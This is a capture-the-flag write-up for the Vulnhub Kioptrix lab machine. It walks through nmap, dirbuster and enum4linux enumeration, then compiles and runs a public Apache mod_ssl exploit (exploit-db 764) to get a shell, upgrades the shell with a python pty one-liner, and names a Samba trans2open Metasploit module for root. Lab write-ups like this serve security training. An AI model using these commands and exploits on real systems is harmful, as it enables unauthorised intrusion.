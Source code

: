 # Author; Panagiotis Fiskilis/Neuro #

## Machine name: Vulnhub: Kioptrix ##

<b>

My IP: 192.168.1.16

Machine IP:

</b>

### Enumeration: ###

#### Nmap: ####

We start with Host discovery:

```bash
nmap -sP 192.168.1.*
```

![](./Images/Host-Discovery.png)

The <code>192.168.1.1</code> IP is the router.

The <code>192.168.1.16</code> IP is my attack mchine.

The <code>192.168.1.11</code> IP is my phone.

The <code>192.168.1.20</code> IP is the Kioptrix box.

We start with Nmap port scanning:

```bash
sudo nmap -sS -sV -sC -O 192.168.1.20 |tee Nmap/nmap.init
nmap -p- 192.168.1.20 |tee Nmap/nmap_all_ports.log
sudo nmap -sU 192.168.1.20 |tee Nmap/nmap_UDP.log
nmap --script vuln 192.168.1.20 |tee Nmap/nmap.vulns
```

![](./Images/all_ports.png)

On the HTTP and HTTPS ports we get a standard apache page.

![](./Images/Apache.png)

From Nmap we have a domain name:

```
nonexistent.corp
```

#### Dirbuster: ####

![](./Images/Dirbuster-raft-medium-Dirs.png)

We get the following default apache pages:

![](./Images/Dirbuster-Results.png)

#### SMB Enumeration: ####

Found workgroup(from Nmap):

```
tMYGROUP
```

We system runs samba so we use enum4linux:

```bash
enum4linux -a nonexistent.corp |tee enum4linux.log
```

### Initial: ###

From the Nmap initial we can see that the Apache server is outdated and vulnerable:

![](./Images/Outdated-and-vulnerable.png)

After some googling search I found the following RCE buffer overflow(CVE-2002-0082):

```
https://www.exploit-db.com/exploits/764
```

Tried to compile the above mentioned exploit and got some errors so I started googling:

```
https://monkeydouy.medium.com/how-to-compile-openfuckv2-c-69e457b4a1d1
```

Followed the instructions and have an exploit ready to be compiled and give as RCE:

```bash
gcc 764.c -o 764 -lcrypto
./764
./764 |grep "RedHat" |grep "1.3.20"
```

![](./Images/Almost-RCE.png)

We will use 0x6a initially:

We will use 0x6a initially:

```bash
./764 0x6a 192.168.1.20 443
```

It failed so let's try `0x6b`:

```bash
./764 0x6b 192.168.1.20 443
```

![](./Images/RCE.png)

We manage to get a shell as `apache` Let's get root.

### Priv. Esc. ###

Let's make our shell stable and set the `TERM` variable.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
TERM=xterm
```

We download linpeas.

Found the following cron job that can elevate our privileges.

![](./Images/cron.png)

After some googling I managed to find a one-exploit root on smb:

```
exploit/linux/samba/trans2open
```

![](./Images/root.png)

Later I found that the VM image I had was broken.
